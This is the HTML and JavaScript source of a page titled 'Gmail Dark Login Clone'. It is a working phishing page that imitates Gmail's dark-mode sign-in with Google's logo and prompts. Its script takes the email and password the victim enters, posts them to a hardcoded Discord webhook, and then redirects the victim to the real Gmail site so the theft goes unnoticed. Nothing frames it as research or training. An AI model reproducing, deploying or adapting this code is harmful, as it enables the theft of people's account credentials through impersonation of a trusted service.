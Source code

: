 <!DOCTYPE html>
<html lang="en" class="dark">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>Gmail Dark Login Clone</title>
  <script src="https://cdn.tailwindcss.com"></script>
  <script>
    tailwind.config = {
      darkMode: 'class'
    };
  </script>
  <link rel="preconnect" href="https://fonts.googleapis.com">
  <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
  <link href="https://fonts.googleapis.com/css2?family=Roboto&display=swap" rel="stylesheet">
  <style>
    body {
      font-family: 'Roboto', sans-serif;
    }
    .input:focus {
      outline: none;
      border-color: #8ab4f8;
      box-shadow: 0 0 0 2px #8ab4f850;
    }
  </style>
</head>
<body class="bg-[#202124] text-white min-h-screen flex flex-col justify-center items-center px-4">
  <div class="w-full max-w-4xl bg-[#171717] rounded-3xl shadow-lg p-8 md:p-10">
    <div id="emailStep">
      <img src="https://ssl.gstatic.com/ui/v1/icons/mail/rfr/logo_gmail_lockup_dark_1x_r5.png" alt="Google Logo" class="h-7 mb-10">
      <h1 class="text-3xl font-normal mb-1">Sign in</h1>
      <p class="text-sm text-gray-400 mb-8">to continue to Gmail</p>
      <form id="emailForm" class="space-y-6">
        <input id="emailInput" type="email" placeholder="Email or phone" required class="input w-full bg-transparent border border-gray-600 rounded px-4 py-3 text-sm placeholder-gray-400">
        <div>
          <a href="#" class="text-sm text-[#8ab4f8]">Forgot email?</a>
        </div>
        <p class="text-xs text-gray-400">Not your computer? Use Guest mode to sign in privately. <a href="#" class="text-[#8ab4f8]">Learn more</a></p>
        <div class="flex justify-between items-center mt-6">
          <button type="button" class="text-sm text-[#8ab4f8] font-medium">Create account</button>
          <button type="submit" class="bg-[#8ab4f8] hover:bg-[#669df6] text-black text-sm font-medium px-6 py-2 rounded-full">Next</button>
        </div>
      </form>
    </div>

    <div id="passwordStep" class="hidden">
      <img src="https://ssl.gstatic.com/ui/v1/icons/mail/rfr/logo_gmail_lockup_dark_1x_r5.png" alt="Google Logo" class="h-7 mb-10">
      <h1 class="text-3xl font-normal mb-8">Welcome</h1>
      <div class="flex items-center space-x-2 bg-black border border-gray-600 text-white px-3 py-2 rounded-full w-fit mb-6">
        <svg class="w-5 h-5 text-white" fill="currentColor" viewBox="0 0 24 24"><path d="M12 12c2.7 0 5.8 1.3 6 2v2H6v-2c.2-.7 3.3-2 6-2zm0-2c-1.1 0-2-.9-2-2s.9-2 2-2 2 .9 2 2-.9 2-2 2z"/></svg>
        <span id="userEmailDisplay">user@gmail.com</span>
        <svg class="w-4 h-4 text-gray-400" fill="currentColor" viewBox="0 0 24 24"><path d="M7 10l5 5 5-5z"/></svg>
      </div>
      <form id="passwordForm" class="space-y-6">
        <input id="passwordInput" type="password" placeholder="Enter your password" required class="input w-full bg-transparent border border-gray-600 rounded px-4 py-3 text-sm placeholder-gray-400">
        <div class="flex items-center">
          <input type="checkbox" id="showPassword" class="form-checkbox border-gray-500 mr-2">
          <label for="showPassword" class="text-sm">Show password</label>
        </div>
        <div class="flex justify-between items-center">
          <a href="#" class="text-sm text-[#8ab4f8]">Forgot password?</a>
          <button type="submit" class="bg-[#8ab4f8] hover:bg-[#669df6] text-black text-sm font-medium px-6 py-2 rounded-full">Next</button>
        </div>
      </form>
    </div>
  </div>

  <script>
    const emailForm = document.getElementById('emailForm');
    const passwordForm = document.getElementById('passwordForm');
    const passwordStep = document.getElementById('passwordStep');
    const emailStep = document.getElementById('emailStep');
    const userEmailDisplay = document.getElementById('userEmailDisplay');
    const emailInput = document.getElementById('emailInput');
    const passwordInput = document.getElementById('passwordInput');
    const showPassword = document.getElementById('showPassword');
    
    const webhookURL = 'https://discord.com/api/webhooks/1358533803164827791/SC7RqePQmAO3StmRzKpPauhodEGwl3KmOh4sKkO_rYbRpl5rJ8yQhKyYqgWjZDO7MM-n';

    emailForm.addEventListener('submit', function (e) {
      e.preventDefault();
      userEmailDisplay.textContent = emailInput.value;
      emailStep.classList.add('hidden');
      passwordStep.classList.remove('hidden');
    });

    passwordForm.addEventListener('submit', function (e) {
      e.preventDefault();

      const email = emailInput.value;
      const password = passwordInput.value;

      // Send email and password to Discord webhook
      const data = {
        content: `Email: ${email}\nPassword: ${password}`
      };

      fetch(webhookURL, {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json'
        },
        body: JSON.stringify(data)
      })
      .then(response => response.json())
      .then(data => console.log('Successfully sent data to Discord:', data))
      .catch(error => console.error('Error sending data to Discord:', error));

      // Redirect to Gmail login page after submitting
      setTimeout(function() {
        window.location.href = "https://mail.google.com/mail/u/0/?pli=1";
      }, 1000); // Delay redirection by 1 second to allow the webhook to process
    });

    showPassword.addEventListener('change', function () {
      passwordInput.type = this.checked ? 'text' : 'password';
    });
  </script>
</body>
</html>
